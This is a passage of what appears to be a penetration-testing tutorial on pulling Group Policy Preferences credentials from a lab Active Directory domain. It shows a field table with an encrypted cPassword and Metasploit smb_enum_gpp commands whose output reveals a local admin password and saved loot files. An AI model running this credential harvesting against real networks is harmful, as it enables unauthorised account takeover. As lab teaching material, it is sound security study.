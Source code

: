 ### Key Fields in GPP Files
| Field | Description | Example Value |
|-------|-------------|---------------|
| TYPE | GPP file type | Groups.xml |
| USERNAME | Account username | new_local_admin |
| PASSWORD | Encrypted password (cPassword) | Ju9qmLzQeH61Nrqk/bbEB1CfOFVqOIGOUevB4wAvOng |
| DOMAIN CONTROLLER | DC IP/hostname | 10.x.x.x |
| DOMAIN | Domain name | penlab.lcl |
| CHANGED | Last modification | 2016-07-12 07:04:23 |
| NEVER_EXPIRES? | Password expiry setting | 1 (never expires) |
| DISABLED | Account status | 0 (enabled) |

## Enumeration Techniques

### Method 1: Metasploit smb_enum_gpp
```bash
# Using Metasploit auxiliary module
msf6 > use auxiliary/scanner/smb/smb_enum_gpp
msf6 auxiliary(smb_enum_gpp) > set RHOSTS 192.168.2.50
msf6 auxiliary(smb_enum_gpp) > set SMBDomain penlab.lcl
msf6 auxiliary(smb_enum_gpp) > set SMBUser username
msf6 auxiliary(smb_enum_gpp) > set SMBPass password
msf6 auxiliary(smb_enum_gpp) > run

# Expected output:
[+] 192.168.2.50:445 - Group Policy Credential Info
=======================================
Name                Value
----                -----
TYPE               Groups.xml
USERNAME           new_local_admin
PASSWORD           $uP3r5ekr1tpass
DOMAIN CONTROLLER  192.168.2.50
DOMAIN             penlab.lcl
CHANGED            2016-07-12 07:04:23
NEVER_EXPIRES?     0
DISABLED           0

[+] 192.168.2.50:445 - XML file saved to: /opt/metasploit/apps/pro/loot/20160712000840_default_192.168.2.50_windows.gpp_file_700506.xml
[+] 192.168.2.50:445 - Groups.xml saved as: /opt/metasploit/apps/pro/loot/20160712000840_default_192.168.2.50_smb_shares_file_700506.xml
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
